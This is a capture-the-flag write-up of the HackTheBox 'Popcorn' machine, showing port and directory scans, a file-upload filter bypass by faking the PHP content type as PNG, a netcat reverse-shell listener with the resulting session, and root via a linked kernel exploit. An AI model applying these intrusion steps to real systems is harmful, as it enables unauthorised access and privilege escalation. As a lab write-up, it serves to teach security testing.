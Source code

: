 ```yaml
---
image: /assets/img/popcorn/popcorn.png
layout: post
title: Popcorn
date: 2020-10-6 00:00:01 +5:30
categories: [Hackthebox, Medium]
tags: [torrent, web, upload] # add tag
---
```


## Summary

> We have torrent in port 80
> Created an Account
> There is an upload vulnerability in screenshot upload feature
> After getting shell, linuxexpliotsuggester will show some exploits
> Exploiting with nelson Exploit will give Root

## Walkthrough

### Enumeration

```bash
argenestel@parrot  ~/Desktop/hackthebox/popcorn  rustscan 10.10.10.6
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
Faster Nmap scanning with Rust.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Nmap? More like slowmap.

[~] The config file is expected to be at "/home/argenestel/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5
000'.  
Open 10.10.10.6:22
Open 10.10.10.6:80
[~] Starting Nmap
[>] The Nmap command to be run is nmap -vvv -p 22,80 10.10.10.6

Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-04 21:09 IST
Initiating Ping Scan at 21:09
Scanning 10.10.10.6 [2 ports]
Completed Ping Scan at 21:09, 0.21s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 21:09
Completed Parallel DNS resolution of 1 host. at 21:09, 0.05s elapsed
DNS resolution of 1 IPs took 0.05s. Mode: Async [#: 2, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 21:09
Scanning 10.10.10.6 [2 ports]
Discovered open port 80/tcp on 10.10.10.6
Discovered open port 22/tcp on 10.10.10.6
Completed Connect Scan at 21:09, 0.20s elapsed (2 total ports)
Nmap scan report for 10.10.10.6
Host is up, received syn-ack (0.20s latency).
Scanned at 2020-10-04 21:09:37 IST for 1s

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.57 seconds

```

#### Port 80

Okay  let's dirbust the port80.

```bash
argenestel@parrot  ~/Desktop/hackthebox/popcorn  ffuf -w /usr/share/wordlists/dirb/big.txt -u http://10.10.10.6/FUZZ  

       /'___\  /'___\           /'___\        
      /\ \__/ /\ \__/  __  __  /\ \__/        
      \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\       
       \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/       
        \ \_\   \ \_\  \ \____/  \ \_\        
         \/_/    \/_/   \/___/    \/_/        

      v1.0.2
________________________________________________

:: Method           : GET
:: URL              : http://10.10.10.6/FUZZ
:: Follow redirects : false
:: Calibration      : false
:: Timeout          : 10
:: Threads          : 40
:: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

.htaccess               [Status: 403, Size: 287, Words: 21, Lines: 11]
.htpasswd               [Status: 403, Size: 287, Words: 21, Lines: 11]
cgi-bin/                [Status: 403, Size: 286, Words: 21, Lines: 11]
index                   [Status: 200, Size: 177, Words: 22, Lines: 5]
rename                  [Status: 301, Size: 309, Words: 20, Lines: 10]
test                    [Status: 200, Size: 47067, Words: 2465, Lines: 651]
torrent                 [Status: 301, Size: 310, Words: 20, Lines: 10]
```

![port](/assets/img/popcorn/port80torrent.png)

![login](/assets/img/popcorn/login.png)

Alright we checked common passwords and didn't worked.<br/>
Let's check by reg user (admin user already exists).

![reg](/assets/img/popcorn/registered.png)

Okay let's check if uploading php is possible or not<br />
ughh we can only upload torrent file.
So looking into previously uploaded file we can upload screenshot to let's check by uploading a torrent file.

since it is checking content type i changed it from application/x-php to image/png
and it was accepted as png

![upload](/assets/img/popcorn/uploaded.png)

Alright done now lets manupulate screenshot.

![uploadpng](/assets/img/popcorn/uploadedpng.png)

![png](/assets/img/popcorn/pngerror.png)

### Exploitation

Hurrayy let's get shell

```bash
argenestel@parrot  ~/Desktop/hackthebox/popcorn  nc -lvnp  4444  
listening on [any] 4444 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.6] 48833
Linux popcorn 2.6.31-14-generic-pae #48-Ubuntu SMP Fri Oct 16 15:22:42 UTC 2009 i686 GNU/Linux
 21:47:21 up  4:03,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: no job control in this shell
www-data@popcorn:/$ python -c 'import pty;pty.spawn("/bin/bash")'
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@popcorn:/$ id
id
```

alright got www-data<br />
moving on to user

so we got george username<br />

![reg](/assets/img/popcorn/linuxexploitsuggester.png)

![reg](/assets/img/popcorn/nelsonexp.png)

<https://github.com/lucyoa/kernel-exploits/blob/master/full-nelson/full-nelson> <br />
so i got root by running linux exploit suggester.

Rooted :)
